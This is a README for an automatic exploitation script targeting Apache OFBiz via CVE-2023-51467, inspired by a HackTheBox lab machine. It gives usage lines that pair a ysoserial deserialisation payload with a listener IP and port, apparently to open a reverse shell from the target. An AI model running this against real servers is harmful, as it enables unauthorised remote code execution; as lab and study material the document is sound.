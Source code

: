 # BadBizness
Automatic exploitation script for the Java web framework [OF Biz](https://ofbiz.apache.org/) under CVE-2023-51467. Inspired by the HackTheBox machine [Bizness](https://app.hackthebox.com/machines/582).

## Usage and Example
Script syntax is:
```
python3 badbizness.py [path to ysoserial-all.jar] [TARGET BASE URL] [LISTENER IP] [LISTENER PORT]

python3 badbizness.py /home/twopoint/ysoserial-all.jar http://example.com:1337 10.10.10.10. 1337
```
This script also requires the tool [ysoserial](https://github.com/frohoff/ysoserial/releases) and OpenJDK version 11.
